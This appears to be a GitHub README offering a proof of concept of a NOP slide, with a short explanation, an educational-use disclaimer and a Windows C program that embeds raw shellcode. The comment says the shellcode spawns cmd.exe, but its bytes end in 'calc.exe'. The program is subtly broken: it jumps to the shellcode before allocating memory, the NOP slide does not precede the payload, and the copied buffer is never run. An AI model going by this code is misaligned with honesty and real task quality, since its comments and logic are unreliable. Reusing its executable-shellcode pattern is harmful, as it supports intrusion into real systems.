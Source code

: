 # PoC — NOP slide

A **NOP slide** (aka NOP sled) is a sequence of no-operation instructions placed before shellcode so that control transfers landing anywhere inside the slide will “slide” down into the payload.  
It’s a reliability trick used in classic exploit development to increase the chance of hitting the shellcode when the exact target address is uncertain.

> **Disclaimer:** For educational/research purposes only. Do not run or test this code on machines you do not own or control.

---

## Example (C)

```c
#include <stdio.h>
#include <windows.h>

// Shellcode to spawn a cmd.exe process
unsigned char shellcode[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00";

int main() {
    // Insert a NOP slide at the start of the code section
    __asm {
        nop
        nop
        nop
        nop
        nop
        nop
        nop
        nop
    }

    // Insert the shellcode at the end of the NOP slide
    __asm { jmp shellcode }

    // Allocate memory for the shellcode and copy it into place
    void* shellcode_mem = VirtualAlloc(0, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(shellcode_mem, shellcode, sizeof(shellcode));

    return 0;
}
